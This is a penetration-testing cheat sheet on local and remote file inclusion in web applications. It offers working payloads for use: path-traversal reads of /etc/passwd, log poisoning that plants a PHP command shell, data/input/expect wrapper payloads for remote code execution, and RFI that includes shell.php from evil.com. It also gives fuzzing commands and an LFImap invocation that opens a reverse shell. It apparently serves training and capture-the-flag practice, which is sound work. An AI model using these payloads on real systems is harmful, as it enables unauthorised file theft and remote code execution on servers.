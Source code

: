 ```yaml
---
description: Notes about some basic File Insclusion attack
---
```


# File Inclusion

## Playground

* [**THM: File Inclusion, Path Traversal**](https://tryhackme.com/r/room/filepathtraversal)

## Dangerous Function

| **Function**                 | **Read Content** | **Execute** | **Remote URL** |
| ---------------------------- | :--------------: | :---------: | :------------: |
| **PHP**                      |                  |             |                |
| `include()`/`include_once()` |         ✅        |      ✅      |        ✅       |
| `require()`/`require_once()` |         ✅        |      ✅      |        ❌       |
| `file_get_contents()`        |         ✅        |      ❌      |        ✅       |
| `fopen()`/`file()`           |         ✅        |      ❌      |        ❌       |
| **NodeJS**                   |                  |             |                |
| `fs.readFile()`              |         ✅        |      ❌      |        ❌       |
| `fs.sendFile()`              |         ✅        |      ❌      |        ❌       |
| `res.render()`               |         ✅        |      ✅      |        ❌       |
| **Java**                     |                  |             |                |
| `include`                    |         ✅        |      ❌      |        ❌       |
| `import`                     |         ✅        |      ✅      |        ✅       |
| **.NET**                     |                  |             |                |
| `@Html.Partial()`            |         ✅        |      ❌      |        ❌       |
| `@Html.RemotePartial()`      |         ✅        |      ❌      |        ✅       |
| `Response.WriteFile()`       |         ✅        |      ❌      |        ❌       |
| `include`                    |         ✅        |      ✅      |        ✅       |

## Local File Inclusion (LFI)

Local File Inclusion (LFI) is a type of vulnerability where an attacker can exploit a web application to include files that are already present on the server. By manipulating input parameters, such as URLs or form fields, the attacker can trick the application into loading files from the local file system, potentially accessing sensitive information or executing malicious code.

#### Basic LFI Payloads

| Command                                                   | Description             |
| --------------------------------------------------------- | ----------------------- |
| `/etc/passwd`                                             | Basic LFI               |
| `../../../../etc/passwd`                                  | LFI with path traversal |
| `/../../../etc/passwd`                                    | LFI with name prefix    |
| `./languages/../../../../etc/passwd`                      | LFI with approved path  |
| `php://filter/read=convert.base64-encode/resource=config` | LFI with Base64 Filter  |
| `../../../../etc/passwd%00`                               | LFI with Null byte      |

## Log Poisoning to RCE

```bash
# Inject Access Log
curl -X "<?php echo passthru(\$_GET['cmd']);?>" http://target.com/

# Access
http://target.com/index.php?page=/var/log/apache2/access.log&cmd=id
```

### Access Log Location

**Apache:**

{% code overflow="wrap" %}
```
/etc/httpd/logs/access.log
/etc/httpd/logs/access_log
/etc/httpd/logs/error.log
/etc/httpd/logs/error_log
/opt/lampp/logs/access_log
/opt/lampp/logs/error_log
/usr/local/apache/log
/usr/local/apache/logs
/usr/local/apache/logs/access.log
/usr/local/apache/logs/access_log
/usr/local/apache/logs/error.log
/usr/local/apache/logs/error_log
/usr/local/etc/httpd/logs/access_log
/usr/local/etc/httpd/logs/error_log
/usr/local/www/logs/thttpd_log
/var/apache/logs/access_log
/var/apache/logs/error_log
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/apache-ssl/access.log
/var/log/apache-ssl/error.log
/var/log/httpd/access_log
/var/log/httpd/error_log
/var/log/httpsd/ssl.access_log
/var/log/httpsd/ssl_log
/var/log/thttpd_log
/var/www/log/access_log
/var/www/log/error_log
/var/www/logs/access.log
/var/www/logs/access_log
/var/www/logs/error.log
/var/www/logs/error_log
C:\apache\logs\access.log
C:\apache\logs\error.log
C:\Program Files\Apache Group\Apache\logs\access.log
C:\Program Files\Apache Group\Apache\logs\error.log
C:\program files\wamp\apache2\logs
C:\wamp\apache2\logs
C:\wamp\logs
C:\xampp\apache\logs\access.log
C:\xampp\apache\logs\error.log
```
{% endcode %}

Nginx:

* /var/log/nginx/access.log

## LFI to RCE

{% code overflow="wrap" %}
```bash
# Data Wrappers
http://target.com/index.php?page=/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id

# Input Wrappers
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://target.com/index.php?page=php://input&cmd=id"

# Expect Wrappers
curl -s "http://target.com/index.php?page=expect://id"
```
{% endcode %}

## Remote File Inclusion (RFI)

In most languages, including remote URLs is considered as a dangerous practice as it may allow for such vulnerabilities. This is why remote URL inclusion is usually disabled by default. For example, any remote URL inclusion in PHP would require the allow\_url\_include setting to be enabled.

{% code overflow="wrap" %}
```bash
http://target.com/index.php?page=ftp://user:pass@localhost/shell.php&cmd=id
http://target.com/index.php?page=http://evil.com/shell.php&cmd=id
```
{% endcode %}

## Automation

{% code overflow="wrap" %}
```bash
# Fuzzing Parameter
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://target.com/index.php?FUZZ=value' -fs 2309

# Check working payload with LFI wordlists
ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://target.com/index.php?view=FUZZ' -fs 2309

# Read Apache2 Conf
curl http://target.com/index.php?view=../../../../../../../../../../../../../../../../../../etc/apache2/apache2.conf
```
{% endcode %}

## Tools

### **LFImap**

```bash
# Install
git clone https://github.com/hansmach1ne/LFImap
cd LFImap/
python3 -m venv lfimap_env
source lfimap_env/bin/activate
pip3 install -r requirements.txt

# Usage
Usage:
python3 lfimap.py --help
python3 lfimap.py -U "http://10.10.70.223/playground.php?page=test" -a
python3 lfimap.py -U "http://10.10.70.223/playground.php?page=test" -x --lhost 10.9.245.106 --lport 443
```

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEh33OpuqB9v3evsJlqTqijUPEdY4TF0sKMWuXC1VhMBCh7OIKkk_OplXm29b0KOURlBvtN0Y2hsfCHcHciCxuvVZ0L1uK_3jS9v1Z4Xs5VFgkw2RbFs28oPYwlJOG3p-tAhNcDx8uT4-0v72jgAEMP1KCqs0PYtXVRpTV1P740O_x9XhIHMTPVkDrQoRtM/s1332/lfimap.png" alt=""><figcaption><p>LFImap</p></figcaption></figure>

## WordLists

* https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux
* https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows
* https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt

### References

* [https://book.hacktricks.xyz/pentesting-web/file-inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
